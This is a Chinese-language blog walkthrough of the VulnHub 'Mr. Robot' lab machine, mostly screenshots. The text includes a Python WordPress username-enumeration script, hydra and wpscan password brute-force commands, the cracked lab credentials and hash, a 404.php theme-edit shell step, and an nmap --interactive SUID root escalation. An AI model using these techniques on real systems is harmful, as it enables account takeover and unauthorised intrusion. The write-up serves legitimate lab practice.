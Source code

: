 ```yaml
---
layout: post
title:  "vulnhub >_ mrRoBot"
description: walkthrough
category: vulnhub
---
```

# mrRoBot

![image-20200617202409740]({{ site.url }}/assets/mrRobot.assets/image-20200617202409740.png)

![image-20200617202634944]({{ site.url }}/assets/mrRobot.assets/image-20200617202634944.png)

80

![image-20200617203152363]({{ site.url }}/assets/mrRobot.assets/image-20200617203152363.png)



443

![image-20200617203214681]({{ site.url }}/assets/mrRobot.assets/image-20200617203214681.png)





![image-20200617203329701]({{ site.url }}/assets/mrRobot.assets/image-20200617203329701.png)

![image-20200617203436652]({{ site.url }}/assets/mrRobot.assets/image-20200617203436652.png)

打开是个字典。剩下那个是key

![image-20200617203718625]({{ site.url }}/assets/mrRobot.assets/image-20200617203718625.png)

![image-20200617203846811]({{ site.url }}/assets/mrRobot.assets/image-20200617203846811.png)

![image-20200617204101932]({{ site.url }}/assets/mrRobot.assets/image-20200617204101932.png)

![image-20200617204241641]({{ site.url }}/assets/mrRobot.assets/image-20200617204241641.png)

![image-20200617204658472]({{ site.url }}/assets/mrRobot.assets/image-20200617204658472.png)



![image-20200617210402372]({{ site.url }}/assets/mrRobot.assets/image-20200617210402372.png)

```html
POST /wp-login.php HTTP/1.1
Host: 192.168.43.4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.43.4/wp-login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Connection: close
Cookie: s_cc=true; s_fid=3049ECE10F0CB5E8-14747522386CD7B4; s_nr=1592440903180; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=ss&pwd=ddd&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.43.4%2Fwp-admin%2F&testcookie=1
```



如果用两个字典同时暴力破解用户名和密码成本太高，参考到wordpress会回显用户名是否正确。可以写一个只暴力测试用户名的python脚本/

```bash
cat fsocity.dic > fsocity.txt
vim weblogin_username_force.py
```



```python
import requests

open_file = open('fsocity.txt', 'r')		
temp = open_file.read().splitlines()		#读字典
count = 0
for username in temp:
    payload = {'log': '{0}'.format(username), 'pwd': 'dummy'}
    headers = {'Content-Type' : 'application/x-www-form-urlencoded'}
    cookies = dict(wordpress_test_cookie='WP+Cookie+check')
    r = requests.post("http://192.168.43.4/wp-login.php", data=payload, headers=headers, cookies=cookies)		#构建包
    if "Invalid username" not in r.text:
        print username
```

![image-20200617211255118]({{ site.url }}/assets/mrRobot.assets/image-20200617211255118.png)

所以用户名是Elliot

再用这个用户名去暴力密码

```bash
sudo hydra -l elliot -P fsocity.txt 192.168.43.4 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

也可以使用wpscan

```bash
wpscan --url http://192.168.43.4 -P fsocity.txt -U elliot --force
```

![image-20200618025547073]({{ site.url }}/assets/mrRobot.assets/image-20200618025547073.png)

```bash
elliot:ER28-0652
```

![image-20200617214438033]({{ site.url }}/assets/mrRobot.assets/image-20200617214438033.png)

老套路，改404

![image-20200617214725471]({{ site.url }}/assets/mrRobot.assets/image-20200617214725471.png)

```bash
http://192.168.43.4/wp-content/themes/twentyfifteen/404.php
```

也可以读取任意不存在网页。也可以读404.php都可以获得shell

![image-20200617221145713]({{ site.url }}/assets/mrRobot.assets/image-20200617221145713.png)



![image-20200617221935707]({{ site.url }}/assets/mrRobot.assets/image-20200617221935707.png)



```bash
robot:c3fcd3d76192e4007dfb496cca67e13b
```

![image-20200617222051159]({{ site.url }}/assets/mrRobot.assets/image-20200617222051159.png)

```bash
robot：abcdefghijklmnopqrstuvwxyz
```

![image-20200617223832076]({{ site.url }}/assets/mrRobot.assets/image-20200617223832076.png)

```bash
find / -perm -4000 2>/dev/null
```

![image-20200617225339961]({{ site.url }}/assets/mrRobot.assets/image-20200617225339961.png)

```
nmap --interactive
```

![image-20200617225715864]({{ site.url }}/assets/mrRobot.assets/image-20200617225715864.png)